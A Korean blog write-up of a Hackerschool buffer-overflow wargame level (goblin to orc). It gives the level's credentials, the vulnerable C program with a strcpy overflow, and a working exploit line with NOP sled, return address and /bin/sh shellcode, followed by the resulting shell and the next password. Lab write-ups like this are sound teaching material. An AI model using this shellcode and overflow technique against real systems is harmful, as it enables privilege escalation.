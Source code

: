 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL4 (goblin -> orc) : egghunter"
date: 2015-11-06 23:30
comments: true
categories:  wargame
tags: [bof]
---
```


- id = goblin 
- pw = hackers proof

<!-- more -->

처음에는 egghunter 의 의미를 잘 몰랐다가 [이 글](https://kldp.org/node/28993)을 보니 환경 변수와 관련있는 것을 알게되었다.  결국 환경변수를 이용해서 풀 수 없도록 환경 변수 값을 모두 초기화시킨 것임.  또한 command line argument 로 입력을 하고, 그 사이즈는 **48 bytes**  위치에 `0xbf` 값이 있지 않으면 buffer copy 하기 않기 때문에 이 조건을 맞추어 주어야 한다.

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}   
```

## Exploit

```bash
[NOP 44bytes][LR][NOP 20bytes][ShellCode]

./orc `python -c 'print "\x90"*44 + "\x94\xfc\xff\xbf" + "\x90" * 20 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`
```

## Next stage

```bash
bash$ id
uid=503(goblin) gid=503(goblin) euid=504(orc) egid=504(orc) groups=503(goblin)

bash$ my-pass
euid = 504
cantata  
```
